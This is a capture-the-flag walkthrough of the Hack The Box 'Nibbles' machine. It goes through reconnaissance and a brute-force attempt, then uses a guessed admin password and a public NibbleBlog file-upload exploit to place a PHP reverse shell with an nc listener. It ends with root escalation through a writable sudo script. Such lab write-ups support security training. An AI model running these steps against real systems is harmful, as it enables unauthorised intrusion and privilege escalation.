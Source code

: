 # Nibbles [HTB](https://app.hackthebox.com/machines/Nibbles)
![nibbles-01]()

## Recon

After adding the target to my `/etc/hosts` file, i fire off an `nmap` scan:

```bash
nmap -sC -sV -A -p- nibbles.htb -oN nmap.result
```

![nmap-res-02]()

We have the following:

+ An SSH server on port 22.
+ An Apache server on port 80.

Lets take a look at the Apache server and see what we can gather. 


### Apache Port 80

If we open the site at `http://nibbles.htb` we get:

![site-03]()

If we take a look at the source code, we can see an interesting comment:

![source-04]()

Lets open this directory at `http://nibbles.htb/nibbleblog`:

![blog-05]()

This is a blog site powered by `Nibbleblog`, all links lead to this home page. Lets take a look at the 
source code once again:

![blog-src-06]()

Looks like we have an `admin` directory, lets see whats inside:

![admin-dir-07]()

As you can see, I've had a look around and i found the following directory `http://nibbles.htb/nibbleblog/admin/templates/easy4/index.bit`: 

![easy4-08]()

If you hover over the `Dashboard` link, youll see it outlines the parameters to get the admin login page: 
`http://nibbles.htb/nibbleblog/admin.php?controller=dashboard`

![admin-login-09]()

Iv'e tried to hunt down the admin password on the site, i couldnt find it. I also tried to search Google
for the default password, but without success as well. So i decided to brute force it. 

I opened `Burp`, capture a login request and send it to `Intruder`. Here i added the password field:

![intruder-10]()

I use a `Sniper` attack with `/usr/share/wordlists/john.list` as the password wordlist:

![setup-11]()

I run the attack and i get Blacklisted after 5 attempts:

![blocked-12]()

So i take a step back and decide to enumerate further with a directory busting scan:

```bash
ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.
txt -u http://nibbles.htb/nibbleblog/FUZZ
``` 

The two most interesting results are:

![ffuf-13]()

![ffuf-14]()


The `content` folder has some interesting `xml` files, like `/private/users.xml`, but it doesnt have the 
admin password. If we take a look at the `README` page:

![readme-15]()

We can see the version of the backend CMS. If we search Google, we can find a [public exploit](https://packetstormsecurity.com/files/133425/NibbleBlog-4.0.3-Shell-Upload.html):

![exploit-16]()

There is also a Metasploit version, but we need the admin credentials. but we cant brute force, so lets try to guess. After a few failed attempts i found the credentials are `admin : nibbles`:

![admin-page-17]()

Now that we know the credentials we can try this file upload [exploit](https://github.com/dix0nym/CVE-2015-6967).  We need a PHP reverse shell, i use [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)'s

Make sure to update your listener's information:

![update-rshell-18]()

Setup the listner with:

```bash
rlwrap nc -lnvp 443
```

Run the exploit with:

```bash
python3 exploit.py --url http://nibbles.htb/nibbleblog/ --username admin --password nibbles --payload rshell.php
```

This should give you access to the system:

![shell-20]()



## Privilege Escalation


If we check our `sudo` privileges with:

```bash
sudo -l
```

![sudo-21]()


We can run a bash script located in our home directory as root. But if `cd` into our user's home directory
we see the following:

![home-dir-22]()

No `personal` directory, instead we have a zip archive. Lets unzip it:

```bash
unzip personal.zip
```
![unzip-23]()


Now if check our user's permissions to this script with `ls -l` we can see:

![perms-23]()

We have full read, write and execute permissions to this script. And since we can run it as root via sudo,
we can edit the file to run whatever command we want with elavated privileges. 

I just start a bash session at the end of the script:

```bash
echo "/bin/bash" >> /personal/stuff/monitor.sh
```

And i execute it with sudo:

```bash
sudo /home/nibbler/personal/stuff/monitor.sh
```

![root-24]()
